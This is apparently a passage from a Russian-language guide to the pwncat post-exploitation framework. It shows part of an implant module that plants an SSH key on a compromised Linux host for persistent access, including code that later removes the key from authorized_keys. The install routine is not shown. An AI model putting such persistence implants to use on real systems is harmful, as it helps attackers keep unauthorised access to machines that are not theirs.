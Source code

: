 ```python
                pass
```

### 13.3. Модуль импланта - установка SSH ключа

```python
#!/usr/bin/env python3

import os
from pathlib import Path
from pwncat.facts import PrivateKey
from pwncat.modules import Status, Argument, ModuleFailed
from pwncat.platform.linux import Linux
from pwncat.modules.implant import ImplantModule

class SSHKeyImplant(PrivateKey):
    """Установленный SSH ключ"""
    
    def __init__(self, source, user, key_path, public_key):
        super().__init__(
            source=source,
            path=key_path,
            uid=user.id,
            content=Path(key_path).read_text(),
            encrypted=False,
            authorized=True,
        )
        self.public_key = public_key

    def title(self, session):
        user = session.find_user(uid=self.uid)
        return f"[blue]SSH ключ[/blue] установлен для [green]{user.name}[/green]"

    def remove(self, session):
        """Удаление установленного ключа"""
        user = session.find_user(uid=self.uid)
        ssh_dir = session.platform.Path(user.home) / ".ssh"
        if not ssh_dir.exists():
            return

        auth_keys_path = ssh_dir / "authorized_keys"
        if not auth_keys_path.exists():
            return

        with session.platform.open(auth_keys_path, "r") as f:
            lines = f.readlines()

        # Удаляем наш ключ
        with session.platform.open(auth_keys_path, "w") as f:
            for line in lines:
                if line.strip() != self.public_key.strip():
                    f.write(line)

class Module(ImplantModule):
    """Установка SSH ключа"""
    
    PLATFORM = [Linux]
    ARGUMENTS = {
        **ImplantModule.ARGUMENTS,
        "ssh_key_path": Argument(str, help="Путь к SSH приватному ключу"),
        "user": Argument(str, default="__pwncat_current__", help="Пользователь для установки ключа"),
    }
```